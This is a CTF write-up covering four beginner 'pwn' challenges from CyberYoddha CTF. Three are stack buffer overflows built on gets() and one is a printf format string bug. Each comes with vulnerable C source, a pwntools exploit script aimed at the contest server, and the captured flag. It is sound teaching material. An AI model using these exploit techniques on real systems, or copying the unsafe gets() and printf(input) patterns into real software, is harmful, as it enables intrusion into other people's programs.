





## CyberYoddha CTF: [pwn]

#### Since the solutions to all the challenges are pretty basic, I'll just shove them all into one writeup.



## Overflow 1


#### overflow1.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```
#### The vulnerability in the code is quite simple, we just need to provide input more than the allocated size of the buf variable in order to overwrite the contents of the str array.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10001)
p.sendline(cyclic(100))
p.interactive()

#: CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

## Overflow 2


#### overflow2.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

#### Again a simple buffer overflow vulnerability and a function hijack attack. Simply overwrite the return address to the address of run_shell.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10002)
exploit = cyclic(28)
exploit += p32(0x8049172)
p.sendline(exploit)
p.interactive()

#: CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

## Overflow 3


#### overflow3.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	long vuln = 0;
    char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

#### Buffer overflow to control the value of a variable. After solving this challenge, I begin to think if the flags for overflow2 and overflow3 have been unintentionally switched.

```python
from pwn import *

#:
'''p = process('./Overflow3')
gdb.attach(p.pid, 'break *main + 51')'''
p = remote('cyberyoddha.baycyber.net',10003)
exploit = cyclic(16)
exploit += p32(0xd3adb33f)
p.sendline(exploit)
p.interactive()

#: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```
## FormatS


#### formats.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
 
}
```

#### printf is called using user supplied input leading to a format string vulnerability. Since the flag is in the stack, we can simply read values as strings from the stack (using the `%s` modifier) and take note of the offset that holds the pointer to the flag variable.

```python
from pwn import *

#:
#p = process('./formats')
p = remote('cyberyoddha.baycyber.net', 10005)
p.sendline('%7$s')
print(p.recv())

#: cyctf{3xpl0!t_th3_f0rm@t_str!ng}
```